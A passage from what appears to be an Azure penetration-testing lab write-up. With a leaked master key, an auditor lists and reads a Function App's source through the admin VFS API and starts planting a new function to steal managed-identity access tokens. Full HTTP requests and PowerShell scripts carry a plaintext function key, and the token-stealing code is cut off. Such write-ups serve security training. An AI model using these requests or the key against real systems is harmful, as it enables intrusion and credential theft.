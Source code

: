 - The auditor has retrieved the plaintext value of the encrypted blob which, according to the name of the Key Vault Secret, corresponds to the Master Key for the `compositionprocessing` Function App. This gives the auditor full access to the Function App. According to this [resource](https://www.netspi.com/blog/technical/cloud-penetration-testing/azure-function-apps/), the URI needed to query to list the source code files of the Function App follows this pattern: `https://<FUNCTIONAPPNAME>.azurewebsites.net/admin/vfs/home/site/wwwroot/HttpTriggerX`.
- The auditor can list all the functions in this Function App.
###### Potsman
```http
GET /admin/vfs/home/site/wwwroot HTTP/1.1
Host: compositionprocessing.azurewebsites.net
x-functions-key: 7JGHkhp1cWbNdZbZmEsdSqwwu2p-pbG7afGcc55qNyWUAzFufM557w==
Content-Type: application/octet-stream
```
###### PowerShell
```powershell
$URL = "https://compositionprocessing.azurewebsites.net/admin/vfs/home/site/wwwroot/"
$Params = @{
"URI" = $URL
"Method" = "GET"
"Headers" = @{
"Content-Type" = "application/octet-stream"
"x-functions-key" = "7JGHkhp1cWbNdZbZmEsdSqwwu2p-pbG7afGcc55qNyWUAzFufM557w=="
}
}

Invoke-RestMethod @Params -UseBasicParsing
```

- The auditor can list (and read) all files inside a function.
###### Postman
```http
GET /admin/vfs/home/site/wwwroot/HTTPTrigger1 HTTP/1.1
Host: compositionprocessing.azurewebsites.net
x-functions-key: 7JGHkhp1cWbNdZbZmEsdSqwwu2p-pbG7afGcc55qNyWUAzFufM557w==
Content-Type: application/octet-stream
```
###### PowerShell
```powershell
$URL = "https://compositionprocessing.azurewebsites.net/admin/vfs/home/site/wwwroot/"
$Params = @{
"URI" = $URL
"Method" = "GET"
"Headers" = @{
"Content-Type" = "application/octet-stream"
"x-functions-key" = "7JGHkhp1cWbNdZbZmEsdSqwwu2p-pbG7afGcc55qNyWUAzFufM557w=="
}
}

Invoke-RestMethod @Params -UseBasicParsing
```

- The auditor can create a new function that once triggered, it will steal Access Tokens for the managed Identity of the Function App.
###### Postman
```http
PUT /admin/vfs/home/site/wwwroot/Student105/__init__.py HTTP/1.1
Host: compositionprocessing.azurewebsites.net
Content-Type: application/octet-stream
x-functions-key: 7JGHkhp1cWbNdZbZmEsdSqwwu2p-pbG7afGcc55qNyWUAzFufM557w==
Content-Length: 850

import logging, os
import azure.functions as func
def main(req: func.HttpRequest) -> func.HttpResponse:
```